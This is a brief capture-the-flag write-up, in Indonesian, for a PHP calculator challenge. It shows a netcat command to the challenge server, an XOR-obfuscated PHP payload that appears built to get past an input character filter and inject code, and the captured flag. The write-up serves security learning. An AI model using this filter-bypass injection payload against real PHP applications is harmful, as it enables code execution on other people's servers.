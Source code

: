 Mimin ada buat kalkulasi menggunakan PHP nih, Mendukung beberapa operator termasuk Tambah, Kurang, Kali, Buka Tutup Kurung, Perkalian, Pembagian, Sisa bagi dan sebagai nya :D.

```
nc 103.157.96.13 7791
```

payload
```php
${('@#&'^'!').('@#&'^'$').('0_!'^']').('@#&'^')').('0_!'^'^')}="".('{}]'^'8').('{}]'^'/').('{}]'^'=').('{}]'^')').""
```

Flag 

```
CTFR{15_th4t_345y_byp455_pr39_u51n9_x0r_4lg0r1thm}
```